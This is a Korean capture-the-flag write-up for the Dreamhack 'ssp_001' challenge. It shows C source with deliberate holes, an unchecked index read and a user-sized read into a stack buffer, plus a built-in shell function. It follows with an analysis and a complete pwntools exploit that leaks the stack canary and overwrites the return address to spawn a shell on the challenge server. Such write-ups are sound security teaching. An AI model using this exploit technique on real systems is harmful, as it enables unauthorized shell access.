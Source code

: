 ```c
// Name: ssp_001.c

#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>
void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}
void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    signal(SIGALRM, alarm_handler);
    alarm(30);
}
void get_shell() {
    system("/bin/sh");
}
void print_box(unsigned char *box, int idx) {
    printf("Element of index %d is : %02x\n", idx, box[idx]);
}
void menu() {
    puts("[F]ill the box");
    puts("[P]rint the box");
    puts("[E]xit");
    printf("> ");
}
int main(int argc, char *argv[]) {
    unsigned char box[0x40] = {};
    char name[0x40] = {};
    char select[2] = {};
    int idx = 0, name_len = 0;
    initialize();
    while(1) {
        menu();
        read(0, select, 2);
        switch( select[0] ) {
            case 'F':
                printf("box input : "); 
                read(0, box, sizeof(box)); 
                break;
            case 'P':
                printf("Element index : ");
                scanf("%d", &idx);
                print_box(box, idx);
                break;
            case 'E':
                printf("Name Size : ");
                scanf("%d", &name_len);
                printf("Name : ");
                read(0, name, name_len);
                return 0;
            default:
                break;
        }
    }
}
```

# 분석

Stack canary를 얻어내 stack canary를 변조하지 않고 return address를 변조하여 `get_shell` 함수를 실행시키면 쉘을 탈취할 수 있다.

# 취약점

`print_box` 함수 내부에서 `idx`가 `box`의 크기를 넘어가는지를 검사하지 않기 때문에 범위를 넘어가는 위치에 저장된 값도 알아낼 수 있다.
또한, 아래의 코드블럭에서 `name_len`이 사용자의 입력에 의해 결정되므로 stack buffer overflow를 인위적으로 발생시킬 수 있다.
```c
case 'E':
    printf("Name Size : ");
    scanf("%d", &name_len);
    printf("Name : ");
    read(0, name, name_len);
    return 0;
```

# 공격

전체적인 공격 흐름은 `[P]rint the box` 메뉴를 통한 stack canary 확인, `[E]xit` 메뉴를 통한 `get_shell` 함수 실행이 된다.
이를 위해선 주요 주소값을 알아낼 필요가 있다.

아래는 gdb를 활용하여 얻어낸 주요 주소값들이다.

* `box` : `$ebp-0x88`
* `name` : `$ebp-0x48`
* `select` : `$ebp-0x8a`
* `idx` : `$ebp-0x94`
* `name_len` : `$ebp-0x90`
* stack canary : `$ebp-0x8`
* ret : `$ebp+0x4`
* `get_shell` : `0x080486b9`
* `main` : `0x0804872b`

따라서 다음 코드를 활용하여 쉘을 탈취할 수 있다.

```python
# Name: ssp_001.py

from pwn import *

context.arch = 'i386'
context.os = 'linux'
# context.log_level = 'debug'

HOST = 'host3.dreamhack.games'
PORT = 14442 # The given port

# conn = process('./ssp_001')
conn = remote(HOST, PORT)

canary = 0
ret = 0x080486b9
payload = b'A' * 0x40
for i in range(4):
    conn.sendlineafter(b'> ', b'P')
    conn.sendlineafter(b'Element index : ', str(i + 0x80).encode('ASCII'))
    conn.recvuntil(b'is : ')
    canary += 256 ** i * int(conn.recv(2), base=16)
payload += p32(canary)
payload += b'A' * 0x8
payload += p32(ret)

conn.sendlineafter(b'> ', b'E')
conn.sendlineafter(b'Name Size : ', str(len(payload)).encode('ASCII'))
conn.recvuntil(b'Name : ')
conn.send(payload)

conn.interactive()
```